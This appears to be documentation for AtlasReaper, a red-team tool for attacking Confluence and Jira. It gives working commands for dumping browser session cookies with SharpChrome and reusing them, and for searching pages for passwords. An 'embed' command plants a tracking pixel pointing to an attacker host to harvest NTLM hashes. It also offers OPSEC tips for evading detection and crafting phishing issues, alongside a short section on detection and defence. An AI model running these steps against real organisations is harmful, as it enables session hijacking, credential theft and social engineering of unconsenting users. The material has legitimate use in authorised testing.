


## What is AtlasReaper?

AtlasReaper is a **command-line tool developed for offensive security purposes**, primarily focused on reconnaissance of Confluence and Jira platforms. It provides various features helpful for credential farming, social engineering, and information gathering in Atlassian environments.

<Tip>
  Written in C# by [@werdhaihai](https://twitter.com/werdhaihai)
</Tip>

## Key Features

<CardGroup cols={2}>
  <Card title="Confluence Reconnaissance" icon="book">
    Search, enumerate, and interact with Confluence spaces, pages, and attachments
  </Card>
  <Card title="Jira Operations" icon="list-check">
    Create issues, add comments, manage attachments, and enumerate projects
  </Card>
  <Card title="Credential Farming" icon="user-secret">
    Embed 1x1 pixel images to perform credential harvesting attacks
  </Card>
  <Card title="Cookie-Based Auth" icon="cookie">
    Uses browser session tokens for authentication
  </Card>
  <Card title="Anonymous Access" icon="eye">
    Supports anonymous access when configured
  </Card>
  <Card title="Social Engineering" icon="users">
    Create issues, add comments, and embed content for social engineering
  </Card>
</CardGroup>

## Command Structure

AtlasReaper uses a hierarchical command structure:

```bash
AtlasReaper.exe [command] [subcommand] [options]
```

### Available Commands

<Tabs>
  <Tab title="Confluence">
    **Confluence operations:**
    - `attach` - Attach files to pages
    - `download` - Download attachments
    - `embed` - Embed 1x1 pixel images (credential farming)
    - `link` - Add links to pages
    - `listattachments` - Enumerate attachments
    - `listpages` - Enumerate pages
    - `listspaces` - Enumerate spaces
    - `search` - Search content with wildcard support
  </Tab>
  <Tab title="Jira">
    **Jira operations:**
    - `addcomment` - Add comments to issues
    - `attach` - Attach files to issues
    - `createissue` - Create new issues
    - `download` - Download attachments from issues
    - `listattachments` - Enumerate issue attachments
    - `listissues` - Enumerate issues
    - `listprojects` - Enumerate projects
    - `listusers` - Enumerate Atlassian users
    - `searchissues` - Search issues
  </Tab>
  <Tab title="Common">
    **Common commands:**
    - `help` - Display command help
    - `-h`, `--help` - Get help for specific commands
  </Tab>
</Tabs>

## Authentication

### Session Token Authentication

AtlasReaper supports cookie-based authentication using session tokens from user browsers:

<Steps>
  <Step title="Extract Session Tokens">
    Use SharpChrome or similar tools to dump cookies:
    ```bash
    SharpChrome.exe cookies /showall
    ```
  </Step>

  <Step title="Locate Atlassian Cookies">
    Look for cookies scoped to `*.atlassian.net`:
    - `cloud.session.token`
    - `tenant.session.token`
  </Step>

  <Step title="Use in Commands">
    Provide the cookie value via the `--cookie` option:
    ```bash
    AtlasReaper.exe [command] [subcommand] --cookie $cookie --url $url
    ```
  </Step>
</Steps>

### Anonymous Access

If Confluence or Jira allows anonymous access, you can omit the cookie parameter:

```bash
AtlasReaper.exe confluence listspaces --url https://example.atlassian.net
```

<Info>
  Test for anonymous access by running commands without the `--cookie` parameter.
</Info>

## Use Cases

### Reconnaissance Scenarios

<AccordionGroup>
  <Accordion title="Information Gathering" icon="magnifying-glass">
    **Objective:** Enumerate available resources and gather intelligence

    - List all Confluence spaces and pages
    - Enumerate Jira projects and issues
    - Search for sensitive information (credentials, keys, internal URLs)
    - Download attachments containing valuable data
    - Enumerate user lists for social engineering
  </Accordion>

  <Accordion title="Credential Farming" icon="key">
    **Objective:** Harvest credentials via embedded content

    - Embed 1x1 pixel images pointing to attacker-controlled servers
    - Monitor for authentication attempts (NTLM hashes)
    - Leverage Responder or similar tools to capture credentials
    - Target high-traffic pages for maximum exposure
  </Accordion>

  <Accordion title="Social Engineering" icon="user-secret">
    **Objective:** Manipulate users for further access

    - Create legitimate-looking Jira issues
    - Add comments with malicious links
    - Attach seemingly benign files with payloads
    - Link to external resources for phishing
    - Impersonate legitimate workflows
  </Accordion>

  <Accordion title="Lateral Movement" icon="arrows-left-right">
    **Objective:** Expand access within the organization

    - Search for internal URLs and endpoints
    - Enumerate API keys and tokens in documentation
    - Identify VPN configurations and access methods
    - Discover internal tools and services
    - Map organizational structure via user enumeration
  </Accordion>
</AccordionGroup>

## Quick Start Examples

### Confluence Operations

```bash
# List all spaces
AtlasReaper.exe confluence listspaces --url https://company.atlassian.net --cookie $cookie

# Search for sensitive information
AtlasReaper.exe confluence search --query "password*" --url $url --cookie $cookie

# Search for URLs with wildcard
AtlasReaper.exe confluence search --query "http*example.com*" --url $url --cookie $cookie

# List pages in a space
AtlasReaper.exe confluence listpages --space-key "DOCS" --url $url --cookie $cookie

# Download an attachment
AtlasReaper.exe confluence download --attachment-id "12345" --output "file.pdf" --url $url --cookie $cookie

# Attach a file to a page
AtlasReaper.exe confluence attach --page-id "12345" --file "document.pdf" --url $url --cookie $cookie

# Embed 1x1 pixel for credential farming
AtlasReaper.exe confluence embed --page-id "12345" --image-url "http://attacker.com/harvest.png" --url $url --cookie $cookie
```

### Jira Operations

```bash
# List all projects
AtlasReaper.exe jira listprojects --url https://company.atlassian.net --cookie $cookie

# List issues in a project
AtlasReaper.exe jira listissues --project "PROJ" --url $url --cookie $cookie

# Search for issues
AtlasReaper.exe jira searchissues --query "security" --url $url --cookie $cookie

# Create a new issue
AtlasReaper.exe jira createissue --project "SUPPORT" --issue-type "Task" --message "Need access to VPN" --url $url --cookie $cookie

# Add a comment to an issue
AtlasReaper.exe jira addcomment --issue-key "PROJ-123" --comment "Please see attached" --url $url --cookie $cookie

# Attach a file to an issue
AtlasReaper.exe jira attach --issue-key "PROJ-123" --file "report.pdf" --url $url --cookie $cookie

# List users (for enumeration)
AtlasReaper.exe jira listusers --url $url --cookie $cookie
```

## Operational Workflow

### Initial Reconnaissance

<Mermaid chart={`
graph TD
    A[Obtain Session Token] --> B[Test Anonymous Access]
    B --> C{Access Granted?}
    C -->|Yes| D[Enumerate Spaces/Projects]
    C -->|No| E[Use Session Token]
    E --> D
    D --> F[List Pages/Issues]
    F --> G[Search for Sensitive Data]
    G --> H[Download Attachments]
`} />

### Credential Farming Attack



## Detection Considerations

<Warning>
  AtlasReaper activities can be detected by security monitoring tools and logging systems.
</Warning>

### Detection Indicators

**API Activity:**
- Unusual API request patterns
- Rapid enumeration of resources
- Anonymous access attempts (if disabled)
- Session token usage from unexpected locations
- File upload/download patterns

**User Behavior:**
- Multiple page/issue creations from single account
- Embedding of external images
- Mass attachment downloads
- Unusual search queries (wildcards, sensitive terms)
- Comment spam or phishing attempts

**Network Indicators:**
- Connections to unknown external image hosts
- Outbound authentication attempts
- UNC path connections (for credential harvesting)

### Defensive Recommendations

<Accordion title="Detection Strategies">
  - Monitor Confluence/Jira audit logs for suspicious activity
  - Alert on anonymous access attempts (if disabled)
  - Track API usage patterns for anomalies
  - Monitor for external image embedding
  - Detect mass enumeration attempts
  - Watch for unusual session token usage patterns
  - Alert on file downloads from sensitive spaces
</Accordion>

<Accordion title="Prevention Strategies">
  - Disable anonymous access if not required
  - Implement strict session token policies
  - Use IP allowlisting for Atlassian access
  - Enforce MFA for all users
  - Restrict permissions for space/project creation
  - Block external image embedding
  - Implement DLP for sensitive content
  - Regularly audit user permissions
</Accordion>

## Architecture

### Target Platforms

<CardGroup cols={2}>
  <Card title="Confluence" icon="book">
    - Confluence Cloud (*.atlassian.net)
    - Self-hosted Confluence (server/data center)
    - Anonymous and authenticated access
    - REST API interactions
  </Card>
  <Card title="Jira" icon="list-check">
    - Jira Cloud (*.atlassian.net)
    - Self-hosted Jira (server/data center)
    - Issue tracking and project management
    - User enumeration capabilities
  </Card>
</CardGroup>

### Authentication Flow



## Limitations

<Warning>
  Be aware of the following limitations when using AtlasReaper:
</Warning>

- **Testing Coverage**: Not thoroughly tested in all environments - unexpected behavior may occur
- **Authentication Methods**: Only supports `cloud.session.token` or `tenant.session.token` from browsers
  - API tokens not currently supported
  - Personal access tokens not supported
  - OAuth not supported
- **Attribution**: Write operations (create/comment/attach) will be attributed to the session token's user or "anonymous"
- **Rate Limiting**: May encounter API rate limits during aggressive enumeration
- **Error Handling**: Some edge cases may cause crashes or unexpected behavior

## OPSEC Considerations

<AccordionGroup>
  <Accordion title="Operational Security" icon="user-secret">
    - **Attribution**: All actions are logged under the session token's username
    - **Timing**: Space out requests to avoid detection
    - **Volume**: Limit enumeration to avoid triggering alerts
    - **Content**: Craft believable issues/comments for social engineering
    - **Cleanup**: Consider removing embedded content after farming
  </Accordion>

  <Accordion title="Credential Farming OPSEC" icon="server">
    - Use HTTPS for harvesting server (avoid cleartext)
    - Host harvesting infrastructure on legitimate-looking domains
    - Employ logging and monitoring of incoming connections
    - Use short-lived campaigns to minimize detection window
    - Clean up embedded images after successful harvest
  </Accordion>

  <Accordion title="Session Token Handling" icon="cookie">
    - Session tokens may expire or be revoked
    - Multiple concurrent uses may trigger anomaly detection
    - Original user may notice unusual activity
    - Session tokens typically tied to IP address
    - Consider token rotation if available
  </Accordion>
</AccordionGroup>

## Command Reference

### Confluence Commands

| Command | Description |
|---------|-------------|
| [attach](/AtlasReaper-mdx/confluence/attach) | Attach a file to a Confluence page |
| [download](/AtlasReaper-mdx/confluence/download) | Download attachments from Confluence |
| [embed](/AtlasReaper-mdx/confluence/embed) | Embed 1x1 pixel image for credential farming |
| [link](/AtlasReaper-mdx/confluence/link) | Add a link to a Confluence page |
| [listattachments](/AtlasReaper-mdx/confluence/listattachments) | List attachments on a page |
| [listpages](/AtlasReaper-mdx/confluence/listpages) | List pages in Confluence spaces |
| [listspaces](/AtlasReaper-mdx/confluence/listspaces) | List all Confluence spaces |
| [search](/AtlasReaper-mdx/confluence/search) | Search Confluence content with wildcards |

### Jira Commands

| Command | Description |
|---------|-------------|
| [addcomment](/AtlasReaper-mdx/jira/addcomment) | Add a comment to a Jira issue |
| [attach](/AtlasReaper-mdx/jira/attach) | Attach a file to a Jira issue |
| [createissue](/AtlasReaper-mdx/jira/createissue) | Create a new Jira issue |
| [download](/AtlasReaper-mdx/jira/download) | Download attachments from an issue |
| [listattachments](/AtlasReaper-mdx/jira/listattachments) | List attachments on an issue |
| [listissues](/AtlasReaper-mdx/jira/listissues) | List issues in Jira projects |
| [listprojects](/AtlasReaper-mdx/jira/listprojects) | List all Jira projects |
| [listusers](/AtlasReaper-mdx/jira/listusers) | List Atlassian users |
| [searchissues](/AtlasReaper-mdx/jira/searchissues) | Search Jira issues |

## Additional Resources

<CardGroup cols={3}>
  <Card title="Blog Post" icon="newspaper" href="https://medium.com/specter-ops-posts/sowing-chaos-and-reaping-rewards-in-confluence-and-jira-7a90ba33bf62">
    Sowing Chaos and Reaping Rewards in Confluence and Jira
  </Card>
  <Card title="GitHub Repository" icon="github" href="https://github.com/werdhaihai/AtlasReaper">
    Official AtlasReaper repository
  </Card>
  <Card title="Usage Guide" icon="terminal" href="/atlasreaper-docs/usage">
    Practical usage examples
  </Card>
</CardGroup>

## Contributing

If you encounter issues or have suggestions:
- Submit a pull request
- Open an issue on [GitHub](https://github.com/werdhaihai/AtlasReaper)

## Author

<Note>
  AtlasReaper is developed by [@werdhaihai](https://twitter.com/werdhaihai) at SpecterOps.
</Note>
